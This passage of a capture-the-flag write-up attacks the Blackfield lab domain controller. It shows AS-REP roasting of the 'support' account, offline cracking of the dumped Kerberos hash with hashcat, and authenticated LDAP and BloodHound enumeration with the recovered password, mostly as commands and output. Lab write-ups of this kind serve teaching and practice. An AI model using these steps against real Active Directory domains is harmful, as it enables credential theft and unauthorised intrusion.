 Check for **ASREPRoastable** accounts:

```bash
$ getnpusers blackfield.local/ -dc-ip 10.10.10.192 -no-pass -usersfile domain_users.txt | grep 'krb5\|User'
[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$support@BLACKFIELD.LOCAL:9f6ca396e535881d3e763ec8b9ac02d3$5601e4935152a25b38784ffcec4dfb846fad6acd52b0337af240a62083dc59eca7344b3b4b4b6cbe5c925f4ca3378aecd925e0021b55b64590227069c7709c56494f96d7c0b4677df2cb2b99b8a4196443656485462f6feb37fdeeac1ca82eb0d381e3807ced88ca442249c21ba2e6ae354a2de9fe31f33283730232a00b62520734ec9c70b307be113472519ef94d6cd4f1d5276aaed7bcd3d9b719ea7eec729b8afa7bd71e88ca0c99837eb91bc18d4526ce67895d74a4bc61fc3ae6922c44d3213f1b56a7af8d2009e59371d1778d19ccf3be01c568a097d3545a053691af1e553bd8ed0f74d75ba63b71afb00a99678b4be9
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```

We have three valid usernames, one of which is ASREPRoastable and we can crack it hash:

```bash
$ hashcat -m 18200 support_hash /usr/share/wordlists/rockyou.txt

<SNIP>
$krb5asrep$23$support@BLACKFIELD.LOCAL:0fb<REDACTED>e87:#0<REDACTED>ht
<SNIP>
```

Now we have credentials, we can obtain group information about the other two users:

```bash
$ nxc ldap 10.10.10.192 -u 'support' -p '#0<REDACTED>ht' -M groupmembership -o USER=audit2020
<SNIP>
GROUPMEM... 10.10.10.192    389    DC01             [+] User: audit2020 is member of following groups:
GROUPMEM... 10.10.10.192    389    DC01             Domain Users

$ nxc ldap 10.10.10.192 -u 'support' -p '#0<REDACTED>ht' -M groupmembership -o USER=svc_backup
<SNIP>
GROUPMEM... 10.10.10.192    389    DC01             [+] User: svc_backup is member of following groups:
GROUPMEM... 10.10.10.192    389    DC01             Remote Management Users
GROUPMEM... 10.10.10.192    389    DC01             Backup Operators
GROUPMEM... 10.10.10.192    389    DC01             Domain Users
```

We can also collect domain information and let **Bloodhound** analyze it:

```bash
$ bloodhound-python -u support -p '#0<REDACTED>ht' -dc dc01.blackfield.local -c all -d BLACKFIELD.LOCAL -ns 10.10.10.192
INFO: Found AD domain: blackfield.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 18 computers
INFO: Connecting to LDAP server: dc01.blackfield.local
INFO: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 316 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
<SNIP>
INFO: Querying computer: DC01.BLACKFIELD.local
WARNING: Failed to get service ticket for DC01.BLACKFIELD.local, falling back to NTLM auth
CRITICAL: CCache file is not found. Skipping...
```